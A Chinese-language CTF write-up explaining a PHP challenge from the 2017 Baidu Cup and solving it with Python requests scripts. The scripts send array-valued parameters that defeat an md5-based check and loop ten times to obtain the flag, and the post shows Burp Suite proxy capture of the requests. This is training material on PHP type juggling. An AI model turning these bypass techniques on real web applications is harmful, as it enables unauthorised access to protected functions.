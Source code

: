 ```yaml
---
title: 【i春秋】 Web —— 爆破-3
copyright: true
date: 2018-09-11 23:06:53
tags: [i春秋,CTF,Writeup,Web,Audit,PHP,Python,HTTP]
categories: [InfoSec,Web]
---
```


# 0x00 前言

此题出自「百度杯」CTF 比赛 2017 二月场，是第三道 「爆破」系列的 Web 题，主要考察在理解了题目 PHP 代码的逻辑后，**通过网络编程与服务器交互获取 flag** 的能力，难度中低，需要的基础知识有：**PHP、Python、HTTP协议**。

题目链接在「i春秋」的 CTF 大本营，解题链接通过创建在线靶场后得到：

- 题目链接：[https://www.ichunqiu.com/battalion?t=1&r=57475](https://www.ichunqiu.com/battalion?t=1&r=57475)

<!-- more -->

![question](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-web-brute-force-3/question.png)

# 0x01 理解 PHP 代码逻辑

打开链接，发现本题的 PHP 源码比前两题要复杂，做审计题首先是要理解代码逻辑：

```php
<?php 
error_reporting(0);
session_start();
require('./flag.php');
if(!isset($_SESSION['nums'])){
  $_SESSION['nums'] = 0;
  $_SESSION['time'] = time();
  $_SESSION['whoami'] = 'ea';
}

if($_SESSION['time']+120<time()){
  session_destroy();
}

$value = $_REQUEST['value'];
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

if($_SESSION['whoami']==($value[0].$value[1]) && substr(md5($value),5,4)==0){
  $_SESSION['nums']++;
  $_SESSION['whoami'] = $str_rands;
  echo $str_rands;
}

if($_SESSION['nums']>=10){
  echo $flag;
}

show_source(__FILE__);
?>
```

- Line 3~9：开始会话，包含 flag.php 文件，为超级全局变量 [`$_SESSION`](http://php.net/manual/en/reserved.variables.session.php) 的三个参数初始化。
- Line 11~13：若 Session 有效期超过了两分钟，则销毁当前会话。
- Line 15~17：先通过 GET 请求或 POST 请求获取的 `value` 参数，再随机选择两个小写字母拼接成字符串。
- Line 19~23：若 `$_SESSION['whoami']` 等于 `$value` 数组中两个元素的拼接，并且 `$value` 的 MD5 哈希值的第 5 至 8 位等于 0，则将 `$_SESSION['nums']` 自增，将 `$_SESSION['whoami']` 更新为随机字符串并输出。
- Line 25~27：若 `$_SESSION['nums']` 大于等于 10，则输出 flag。

理解了代码逻辑后，再结合提示，基本可判断此题真的需要通过网络交互，来「爆破」获取 flag。

# 0x02 编写 Python 网络通信脚本

本题的难点是**如何通过 GET 或 POST 请求，传送同一数组参数的不同元素值**。常见方法有以下两种：

- `value[]=e&value[]=a`
- `value[0]=e&value[1]=a`

使用 Firefox 浏览器，针对 GET 请求进行验证。第一种方法：

![method1](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-web-brute-force-3/method1.png)

第二种方法：

![method2](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-web-brute-force-3/method2.png)

针对 POST 请求同样适用，请读者自行验证。

将页面显示的新值传入 `value` 参数后，按上述方法手动循环 10 次，即可满足输出 flag 的条件，但只仅对于次数少的情况有效，如果循环 100 次，还想继续手动操作吗？这时，使用 Python 的**第三方开源库 [Requests](https://requests.kennethreitz.org/en/master/)** 编写自动化脚本，即可轻松解决问题，基本用法可参考：

> [详解 CTF Web 中的快速反弹 POST 请求](https://ciphersaw.github.io/2017/12/16/%E8%AF%A6%E8%A7%A3%20CTF%20Web%20%E4%B8%AD%E7%9A%84%E5%BF%AB%E9%80%9F%E5%8F%8D%E5%BC%B9%20POST%20%E8%AF%B7%E6%B1%82/)

以下是针对 GET 请求构造的 Python 解题脚本：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import requests

url = "http://2428bbb29ccc4976b0d6d3f5630e3d0a215aedbbe5bf457e.game.ichunqiu.com/"
s = requests.Session()
whoami = "ea"
for i in range(10):
	print(whoami)
	payload = "?value[0]={}&value[1]={}".format(whoami[0], whoami[1])
	response = s.get(url + payload)
	whoami = response.text[:2]
print(response.text)
```

- Line 8~12：自动循环提交 10 次 GET 请求，并输出每次循环的 `value` 参数。
- Line 13：将最后一次响应的报文内容输出，即可看到 flag。

![flag](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-web-brute-force-3/flag.png)

将第 10 行改为 `payload = "?value[]={}&value[]={}".format(whoami[0], whoami[1])` 同样能获得 flag。

# 0x03 使用 BurpSuite 抓取 Python 流量数据

针对 GET 请求直接构造字符串 payload 相对简单，如果使用 POST 请求，还需要构造表单数据的 `dict` 类型变量。以下是针对 POST 请求构造的 Python 解题脚本：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import requests

url = "http://2428bbb29ccc4976b0d6d3f5630e3d0a215aedbbe5bf457e.game.ichunqiu.com/"
s = requests.Session()
whoami = "ea"
for i in range(10):
	print(whoami)
	payload = {"value[0]": whoami[0], "value[1]": whoami[1]} 
	response = s.post(url, data = payload)
	whoami = response.text[:2]
print(response.text)
```

显而易见，只有第 10、11 行与 GET 请求不同，运行完上述脚本后也能获得 flag。不过，当我们依葫芦画瓢将第 10 行改为 `payload = {"value[]": whoami[0], "value[]": whoami[1]} ` 后，却发现无法获得 flag 了：

![flag-failure](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-web-brute-force-3/flag-failure.png)

借此机会，讲解一下如何使用 Burp Suite 抓取 Python 发送的网络请求包，相信大家看到请求包后，答案便一目了然。以下是利用代理抓取 POST 请求包的 Python 脚本：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import requests

url = "http://2428bbb29ccc4976b0d6d3f5630e3d0a215aedbbe5bf457e.game.ichunqiu.com/"
s = requests.Session()
whoami = "ea"
payload = {"value[]": whoami[0], "value[]": whoami[1]} 
burp = {"http": "127.0.0.1:8080"}
response = s.post(url, data = payload, proxies = burp)
```

- 构造 POST 请求中 [`proxies` 代理参数](https://requests.kennethreitz.org/en/master/user/advanced/#proxies)的 `dict` 类型变量，其中 `http` 是代理访问 URL 的协议类型，`127.0.0.1:8080` 是 Burp Suite 的本地监听地址与端口号。

将 Burp Suite 开启 Intercept 模式，运行上述脚本即可看到：

![burp-failure](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-web-brute-force-3/burp-failure.png)

可发现表单数据只剩 `value[]=a`，原来前面 `value[]=e` 的值已被覆盖。那么问题来了，如何构造 POST 请求中不带索引的同一数组参数的不同值呢？

正确的构造方法是 `payload = {"value[]": [whoami[0], whoami[1]]} ` ，再次运行脚本，即可看到表单数据正常提交了：

![burp-success](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-web-brute-force-3/burp-success.png)

其实，使用 requests 模块自带的方法也能查看请求头与请求体，对应的 Python 脚本如下：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import requests

url = 'http://2428bbb29ccc4976b0d6d3f5630e3d0a215aedbbe5bf457e.game.ichunqiu.com/'
s = requests.Session()
whoami = "ea"
payload = {"value[]": [whoami[0], whoami[1]]} 
response = s.post(url, data = payload)
print(response.request.headers)
print(response.request.body)
```

运行后即可在终端上看到请求头与请求体：

![requests-body](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/ichunqiu-web-brute-force-3/requests-body.png)